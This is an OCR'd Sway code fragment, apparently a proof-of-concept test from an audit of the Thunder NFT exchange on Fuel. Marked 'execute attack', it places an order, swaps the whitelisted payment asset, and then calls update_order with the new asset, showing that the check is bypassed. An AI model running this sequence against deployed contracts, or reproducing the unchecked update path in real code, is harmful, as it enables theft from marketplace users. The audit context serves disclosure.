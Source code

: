 ```sway
    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order);

    //now remove the whitelist token and add another one 

    asset_mngr.remove_asset(0);

    let asset_to_add1 = AssetId::from(0x7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777);
    
    asset_mngr.add_asset(asset_to_add1);

    //call update with new paymentAsset

    pool.update_balance(asset_to_add1, 100u64);

    let maker_order1 = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add1,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };

    thunder_exch.update_order(maker_order1);

}

```
